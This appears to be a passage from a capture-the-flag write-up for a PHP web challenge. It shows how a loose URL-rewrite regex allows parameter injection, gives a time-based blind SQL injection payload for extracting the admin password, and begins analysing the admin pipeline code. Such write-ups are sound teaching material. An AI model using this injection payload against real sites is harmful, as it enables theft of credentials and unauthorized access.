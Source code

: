 ```
RewriteRule ^(home|admin)/p-([^/]+)/sort-(asc|desc)/limit-([^/]+)/?$    /index.php?page=$1\&precision=$2\&sort=$3\&limit=$4 [NC,L]

RewriteRule ^(home|login|register|admin)\.php$ -                                                                            [NC,F,L]%   
```

We notice that `sort` can only assume the values `asc` or `desc`, but the regex for the parameter `p` is way too permissive, allowing us to insert anything in it and abuse the URL rewriting to inject the `sort` parameter with whatever we want!
To exploit the rewriting we build the url like `/home/p-<payload url encoded>`, where the payload is `8&sort=asc,<sqli>`.

By injecting the sort parameter with the payload 
```(SELECT ( CASE WHEN EXISTS (
    SELECT password FROM users WHERE username='admin' AND password REGEXP BINARY '{regex}'
    ) THEN sleep({SLEEP_TIME}) ELSE num END ))
```
to perform a time-based SQLi and retrieve the admin password.

We can now log in as admin.
In the admin page we can create pipelines and execute them to process numbers. 
The functions make use of `user_hooks` to execute the processing:

```
$handle_post_process = fn(&$mysqli) =>
($stmt = $mysqli->prepare('SELECT id, num, pipeline FROM numbers WHERE user_id = ? AND id = ?')) &&
$stmt->bind_param("ii", $_SESSION['id'], $_POST['id']) &&
$stmt->bind_result($id, $num, $pipeline) &&
(
    ($res = $stmt->execute()) &&
    $stmt->fetch() &&
    ($pipeline_e = explode("\n", $pipeline)) &&
    ($_SESSION['pipeline']['instructions'] = array_map($parse_instruction, $pipeline_e)) &&
    (($_SESSION['pipeline']['num'] = $parse_number($num)) || $_SESSION['pipeline']['num'] == 0) &&
    ($_SESSION['pipeline']['id'] = $id) ?
    set_user_hook('start_processing')
    : set_user_hook('something_wrong')
) || header('Refresh:0') || exit();
```

This function parse all the instructors via `parse_instruction`, parse the number via `parse_number` and set a hook to process it on the next page load.

Let's check the two functions:

```
$define_math_constants = fn() =>
define('PI', 3) &&
define('E', 3) &&
define('g', 9);

$instructions = [
    '=' => fn(&$lval, $rval) => $lval = $rval,
    '+=' => fn(&$lval, $rval) => $lval = $lval + $rval,
    '-=' => fn(&$lval, $rval) => $lval = $lval - $rval,
    '*=' => fn(&$lval, $rval) => $lval = $lval * $rval,
    '/=' => fn(&$lval, $rval) => $lval = $lval / $rval,
    '_' => fn(&$lval, $rval) => $lval = $lval,
];

$check_lval = fn($lval) => $lval[0] == '$' && ctype_graph(substr($lval, 1));

$check_rval = fn($rval) => $check_lval($rval) || ctype_digit($rval) || ctype_alpha($rval);

// Instruction as quadruple
// (name, [lval, rval], deps, deref_rval)
```
